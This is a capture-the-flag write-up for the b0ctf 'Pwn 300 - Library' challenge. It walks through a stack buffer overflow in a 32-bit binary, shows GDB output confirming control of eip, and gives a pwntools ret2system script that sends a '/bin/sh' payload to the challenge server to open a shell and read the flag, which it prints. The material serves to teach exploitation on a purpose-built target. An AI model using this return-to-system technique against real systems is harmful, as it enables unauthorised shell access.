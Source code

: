 # Pwn 300 - Library

We are given a nc server, ```nc 40.76.33.15 41141```, and a 32 bit binary. 

Here is the pseudocode:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  system("echo 'Good luck on your final pwning voyage of the competition\n'");
  vuln();
  return 0;
}

char *vuln()
{
  int s; // [esp+6h] [ebp-62h]
  __int16 v2; // [esp+Ah] [ebp-5Eh]
  int v3; // [esp+5Ch] [ebp-Ch]

  puts("You have input, find an exploit that would make John Purdue proud");
  s = 0;
  v3 = 0;
  memset(
    (void *)((unsigned int)&v2 & 0xFFFFFFFC),
    0,
    4 * (((unsigned int)((char *)&s - ((unsigned int)&v2 & 0xFFFFFFFC) + 90) & 0xFFFFFFFC) >> 2));
  return fgets((char *)&s, 150, stdin);
}
```

Again, we have an overflow in the vuln function, which we can confirm in GDB:

```
root@ctf:~# gdb library
Reading symbols from library...(no debugging symbols found)...done.
(gdb) r
Starting program: /root/library
Good luck on your final pwning voyage of the competition
 0:ssh*                                                                                                14/10  21:42:51 You have input, find an exploit that would make John Purdue proud
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ0000111122223333444455556666777788889999

Program received signal SIGSEGV, Segmentation fault.
0x30305a5a in ?? ()
(gdb)
```

Segmentation fault means that the program tried to access invalid memory. In this case, eip is 0x30305a5a, which is invalid memory. That's because it is ZZ00, our input.

So now we control eip, but sadly there's no print flag function. Instead, we can reuse code. Let's take a look at the assembly for main:

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804849b <+0>:     lea    0x4(%esp),%ecx
   0x0804849f <+4>:     and    $0xfffffff0,%esp
   0x080484a2 <+7>:     pushl  -0x4(%ecx)
   0x080484a5 <+10>:    push   %ebp
   0x080484a6 <+11>:    mov    %esp,%ebp
   0x080484a8 <+13>:    push   %ecx
   0x080484a9 <+14>:    sub    $0x4,%esp
   0x080484ac <+17>:    sub    $0xc,%esp
   0x080484af <+20>:    push   $0x80485c0
   0x080484b4 <+25>:    call   0x8048370 <system@plt>
   0x080484b9 <+30>:    add    $0x10,%esp
   0x080484bc <+33>:    call   0x80484ce <vuln>
   0x080484c1 <+38>:    mov    $0x0,%eax
   0x080484c6 <+43>:    mov    -0x4(%ebp),%ecx
   0x080484c9 <+46>:    leave
   0x080484ca <+47>:    lea    -0x4(%ecx),%esp
   0x080484cd <+50>:    ret
End of assembler dump.
(gdb)
```

These two lines are of interest:

```
0x080484af <+20>:    push   $0x80485c0
   0x080484b4 <+25>:    call   0x8048370 <system@plt>
   ```
   
See how in the pseudocode ```system("echo 'Good luck on your final pwning voyage of the competition\n'");``` is called? That's how you do it in assembly. The address of the string is pushed onto the stack, then the return address is pushed with the call function, then the program jumps to system.

So the stack would look like: <ret address> <argument> when system is called. We can replicate the stack to have the first argument be "/bin/sh" because we have a stack buffer overflow. The format would have to be <anything because we don't care about return address> <address of /bin/sh string>.

Luckily the problem author was nice enough to include a /bin/sh string in the binary, although it is still solvable without:

```
.data:0804A024                 public g_helpful_string
.data:0804A024 g_helpful_string db '/bin/sh',0
```

So our input would have to be <padding> <system address> <anything> <address of binsh string>. Here is my code to do so:

```python
from pwn import *

#r = process("./library")
r = remote("40.76.33.15", 41141)
payload = "A"*102
binsh = 0x0804A024
system = 0x8048370

payload += p32(system)
payload += "AAAA"
payload += p32(binsh)
r.sendline(payload)
r.interactive()
```

```
root@ctf:~# python solve.py
[+] Opening connection to 40.76.33.15 on port 41141: Done
[*] Switching to interactive mode
Good luck on your final pwning voyage of the competition

$ id
uid=1005(library) gid=1005(library) groups=1005(library)
$ cat home/library/flag.txt
b0ctf{b01lers_1z_pr0ud_th4t_y0u_s01v3d_th1$}
```

## Flag
### b0ctf{b01lers_1z_pr0ud_th4t_y0u_s01v3d_th1$}
